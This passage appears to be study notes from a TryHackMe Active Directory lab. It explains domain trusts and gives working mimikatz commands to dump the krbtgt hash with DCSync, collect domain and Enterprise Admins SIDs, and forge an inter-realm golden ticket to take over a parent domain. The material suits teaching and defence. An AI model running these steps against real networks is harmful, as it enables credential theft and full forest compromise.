   * Directional - direction of trust flows from trusting domain to trusted domain
  
  * Transitive - trust relationship expands beyond just two domains to include other trusted domains

* If we have compromised a child domain, domain trusts can be exploited to compromise the parent domain as well.

* ```KRBTGT``` is the account used for Kerberos (in Microsoft), and this is the service account for the KDC (Kerberos Distribution Center) service, which handles all Kerberos ticket requests.

* In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, thus becoming a TGS (Ticket Granting Server).

* To forge TGTs, we need some info:

  * FQDN of domain
  * SID of domain
  * Username of account to be impersonated
  * KRBTGT password hash

```shell
#in compromised Tier 0 infra session
#open command prompt
cd C:\Tools

mimikatz_trunk\x64\mimikatz.exe

#in mimikatz
privilege::debug

lsadump::dcsync /user:za\krbtgt
#dumps hashes for krbtgt
```

* We can also forge an Inter-Realm TGT, which are used to provide access to resources in other domains; we need to exploit bidirectional trust between child & parent domain.

* We need to include extra account SIDs from other domains when constructing the Golden Ticket; this includes adding SID of "Enterprise Admins" group - this grants admin privileges over the entire forest.

```ps
#open powershell in compromised rdp access

#use AD-RSAT cmdlets
#get SID of child DC
Get-ADComputer -Identity "THMDC"

#get SID of EA group
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```

```shell
#in mimikatz session from earlier
#we can generate golden ticket now
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
#/sid for SID of child DC
#/rc4 for NTLM hash of krbtgt
#/sids for SID of EA group

#this generates golden ticket

exit
#exit mimikatz

#verify golden ticket is working
dir \\thmdc.za.tryhackme.loc\c$
```